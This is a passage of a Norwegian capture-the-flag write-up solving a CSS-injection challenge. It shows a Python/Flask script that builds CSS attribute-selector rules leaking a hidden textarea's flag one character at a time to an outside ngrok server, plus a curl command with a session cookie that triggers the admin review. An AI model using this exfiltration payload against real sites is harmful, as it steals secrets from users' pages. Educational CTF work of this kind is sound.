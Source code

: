 Deretter gjentas det samme, bare at vi har mer plaintekst.

Jeg valgte å ikke bruke tid på å automatisere requests, men brukte valgte heller å løse for en og en bokstav manuelt:

```py
from flask import Flask, request
import string

all_characters = string.ascii_lowercase + string.digits + "-" + "_" + "?" + "!"

def generateCSS(known):
    css = ""
    for letter in list(all_characters):
        css += (f"textarea[id^=wack\\7B{known+letter}]{{background: url(https://5e42-158-112-20-145.ngrok-free.app?l={known+letter});}}\n")
    print(css)

generateCSS(known)

app = Flask(__name__)
@app.route('/')
def index():
    print("mnew letter!")
    
    known = str(request.args.get('l'))
    
    generateCSS(known)

    return "Thanks!"
```

Scriptet returnerer en haug med css. Jeg limer det inn i textarea på siden og caller på `review` med curl.

```bash
curl -X POST http://ctf.wackattack.eu:5023/review -H "Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiZDZjMTk5OTMtNzc0ZC00OTlmLTg2NTAtNTFlZWZjZTI5NDkyIn0.G44aqNrsjCpywWAjTL1v4DaFoq98uS698u4pqh75zGs"
```

Prosessen gjentas til vi har fått hele flagget.

<details><summary>Flagg</summary></details>


